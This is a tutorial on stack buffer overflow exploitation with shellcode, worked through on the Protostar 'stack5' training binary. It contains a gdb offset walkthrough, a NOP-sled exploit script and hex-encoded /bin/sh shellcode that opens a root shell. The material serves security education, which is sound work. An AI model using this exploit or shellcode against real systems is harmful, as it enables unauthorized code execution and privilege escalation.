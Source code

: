 ## What is a Buffer Overflow and How Hackers Exploit these Flaws part 3

In our [previous article](https://github.com/neoslab/tutorials/blob/master/articles/5afb15034ccc33d4750897090b47a57e.md) we have seen how to change variables or either execute functions which should not be done through a **stack buffer overflow** including few others things. But imagine the case where there is none of this! How we can successfully execute what we want?

Well, the solution is simple! We will use **Shellcodes**. In hacking, a Shellcode is a small piece of code used as the payload in the exploitation of a vulnerability. It is called "Shellcode" because it typically starts a command shell from which the attacker can control the compromised machine.

**Source:** [wikipedia.org](https://en.wikipedia.org/wiki/Shellcode)

###### HOW TO EXECUTE OUR SHELLCODE?

You remember by rewriting `saved rip`, we could redirect our execution flow anywhere in the memory. If we want to use a Shellcode, the principle is the same except we will redirect the flow to our Shellcode to be able to execute it. The main question is where to put our Shellcode? Well if you remember what we have seen previously, the Shellcode can be put on the stack or in an environment variable.

**Placing a Shellcode in the buffer**

```
[[shellcode][padding]][saved ebp][saved eip -> the address to our shellcode]
```

**Placing a Shellcode behind eip**

```
[buffer (padding)][saved ebp][saved eip -> the address of the nop][nop * large number][shellcode]
```

What is `nop`? Do you remember our [first article](https://github.com/neoslab/tutorials/blob/master/articles/12089bda5ec9cb38858eb2184ceaa179.md). If you already forgot, I kindly suggest you have a look at what we already have seen during our first approach. To cut short, "nop = No Operation", which concretely means to don't do anything and simply move to the next instruction.

How useful is this, you would say? This allows us to have the addresses that go right to the following instructions and finally to the Shellcode, so we no longer have to take the precise address of our Shellcode but just an address in our `nop`.

* * *

###### EXAMPLE OF EXPLOITATION

It's now the time to move on the concrete aspect of the exploitation and to do this we will use the challenge "stack5" from the [Exploit-Education](https://exploit.education/protostar/) website which contains several exercises regarding binary exploitation. Here is the code that we will use:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

**How and where to Get Started?**

In the above source code, we can see a buffer of 64-bytes is created and the function `gets()` is called. What we must do is overflow the buffer by rewriting the return address pointing to our Shellcode. Suppose we do not have the source code, we are going to disassemble `main` using `gdb`. This will allow us among other things to find the address of the buffer where our Shellcode will be placed.

```bash
cd /opt/protostar/bin
gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
```

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-1.png "Image-1")

Now we are going to put a breakpoint into the `main()` function to stop the execution of the program and examine what is on the stack.

```bash
(gdb) b * 0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
```

Through `r` and `i r ` for "info registers" we can get a complete overview and analyze the registers. So let's run it and check what we get.

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-2.png "Image-2")

The `eax` value must contain the string that we have entered "ABCDEF" and therefore the beginning of the buffer is `0xbffffc70`.

```bash
(gdb) x/s 0xbffffc70
0xbffffc70:     "ABCDEF"
```

Since the stack `esp` register points to `0xbffffcbc` then we can calculate the length of our padding using the following command:

```bash
(gdb) p/d 0xbffffcbc - 0xbffffc70
$1 = 76
```

We can determinate that our filler length is equal to 76 and since we got it, we can overwrite the return address. In order to do it, open a new terminal and execute the following python command in order to get the complete string:

```bash
python -c "print 'A' * 76 + 'B' * 4"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Copy the complete string in your clipboard and back the terminal where your instance of `gdb` is running and past the string after executing the `r` command as per the following:

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
```

Once you are done, simply execute the following command to check if the value of your stack `esp` register has been updated:

```bash
(gdb) x/s 0xbffffcbc
0xbffffcbc:      "BBBB"
```

As you can see the content of `0xbffffcbc` is now "BBBB", so we can already handle the return address. The return address should be "0xbffffcbc + 4" which is equal to `0xbffffcc0`. If you want to be sure that address is already present in the stack simply execute the following command in the terminal that running your `gdb` instance:

```bash
(gdb) x/60wx $eax
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-3.png "Image-3")

Now we are going to create an exploit to verify that we will be able to execute arbitrary code, for this we will use the `Interrupt 3` instruction in order to stop the execution of the program and create a breakpoint.

```bash
cat >> /tmp/exploit.py << EOL
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20 # NOPs
shellcode="\xCC"*4
print padding+ret+nops+shellcode
EOL

python /tmp/exploit.py > /tmp/file
cd /opt/protostar/bin/
./stack5 < /tmp/file
```

**Output**

![image-4](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-4.png "Image-4")

We see that it works, now we are going to try to execute a shell `/bin/sh` as root. We can generate the Shellcode using **msfvenom** or search for one that works in our situation on [Shell Storm](http://shell-storm.org/shellcode/) website. To make it easier for you, I already selected a Shellcode that you can use in this situation and which can be found [here](http://shell-storm.org/shellcode/files/shellcode-811.php). So considering all of this our final payload will be:

```
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20
shellcode = ""
shellcode += "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+ret+nops+shellcode
```

The final step will be to save the above piece of code in a file that I will personally name "exploit.py" and execute it using the below command:

```bash
(python /tmp/exploit.py;cat) | ./stack5
```

**Output**

![image-5](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-5.png "Image-5")

We can now execute commands as root on the system. As I said before, these challenges are an introduction, nowadays binaries have protection, such as NX for Linux or DEP for Windows, which makes some memory areas (usually the stack) not executable. However, understand theses principles is a good start if you want to involve deeper into the **Buffer Overflow**.

For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

[![video-1](http://i3.ytimg.com/vi/w4wNgTnWqdQ/maxresdefault.jpg)](https://www.youtube.com/watch?v=w4wNgTnWqdQ)
